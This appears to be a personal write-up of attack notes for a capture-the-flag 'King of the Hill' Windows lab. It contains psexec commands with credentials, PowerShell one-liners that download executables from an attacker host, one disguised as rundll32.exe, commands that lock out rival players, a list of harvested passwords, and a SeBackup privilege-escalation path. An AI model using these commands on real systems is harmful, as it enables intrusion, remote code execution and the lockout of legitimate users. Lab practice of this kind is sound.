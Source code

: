 # Offline KOTH machine

can go straight to system with `psexec.py kingofthe.domain/svc_robotarmy:robots@10.10.34.8`

## tools

as this is a windows box, downloading files can be done over powershell:

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.199.178:1234/kmw.exe','kmw.exe')"
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.199.178:1234/client.exe','c:\users\administrator\music\rundll32.exe')"
```

and king.txt, under Administrator/king-server/, can be made immutable with the `attrib +r king.txt` command. note the `icacls` command could also be used to mess with permissions. can use `takeown /f .\king.txt` as a quick recover if someone else has taken over the file

when dealing with dicks like matheuzsec, do the following:

```
net user svc_robotarmy sdfsjkfskkjiouuiyeruiysdf
[establish a russh shell]
taskkill /f /pid powershell.exe
taskkill /f /pid cmd.exe
```

basically will lock down that method of access (but you can still get in via rushh obvs).

## other ways

path to foothold:

- the webserver on :80 supports webdav. with a tool like `cadaver` it can be browsed and uploaded to. in it is the creds for the scara user: `scara:LeagueIsMyLove`
- once on the machine winpeas reveals several more user creds:

  - `scarra:LeagueIsMyLove`
  - `toast:IsItHotInHere,OrIsItJustMe`
  - `mykull:NightmareNightmareNightmareNightmare`
  - `fed:OfflineTV2020`

Other users include poki, lily, yvonne (possible password in smb, though doesnt seem to work), SVC_ROBOTARMY

SVC_ROBOTARMY <- i think this is an admin account. maybe should do some kerboroasting or something

path to admin:

- `mykull` has SeBackup. by importing https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1, the permissions to the administrator home folder (or any folder) can be changed. editing king under king-server doesnt seem to work though - might require no newline

## Flags

- c:\Users\Administrator\flag.txt
- c:\Users\fed\flag.txt
- c:\Users\lily\flag.txt
- c:\Users\mykull\flag.txt
- c:\Users\poki\flag.txt
- c:\Users\scarra\flag.txt
- c:\Users\toast\flag.txt
- c:\Users\yvonne\flag.txt

